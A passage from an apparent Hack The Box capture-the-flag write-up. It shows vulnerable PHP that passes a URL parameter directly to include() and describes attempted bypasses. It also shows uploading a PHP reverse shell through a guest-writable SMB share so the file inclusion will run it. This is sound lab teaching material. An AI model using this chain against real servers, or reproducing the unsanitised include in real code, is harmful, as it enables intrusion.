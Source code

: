 ```php
  echo "<br><br>";
  echo "<center><p>image_name param is missed !</p></center>";
  echo "<center><p>please enter it to show the image</p></center>";
  echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
 }else{
 $image = $_GET["image_id"];
 echo "<center><img src='images/$image'></center>";

 echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
 include($_GET["pagename"].".php");
 //echo $_GET["pagename"];
 }
}else{
echo "<center><p>You can't see the content ! , please login !</center></p>";
}
?>
```

The `.php` suffix is added automatically after the filename so I can't arbitrarily read any files. I tried the PHP path truncation technique as well as adding null bytes at the end of string but I was not able to bypass this.

I also dumped the `upload.php` source code and saw that the upload thing is just a troll since it doesn't do anything.

```php
<?php

// not finished yet -- friendzone admin !

if(isset($_POST["image"])){

echo "Uploaded successfully !<br>";
echo time()+3600;
}else{

echo "WHAT ARE YOU TRYING TO DO HOOOOOOMAN !";

}

?>
```

### Getting a shell with PHP

The `Development` share I saw earlier is writable by the guest user so I can upload a PHP reverse shell in there and use the LFI to trigger it. The full path of the share is `/etc/Development` as indicated in the nmap script output.

```
# smbclient -U "" //10.10.10.123/Development
Enter HTB\'s password: 
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (184.9 kb/s) (average 184.9 kb/s)
smb: \> 
```
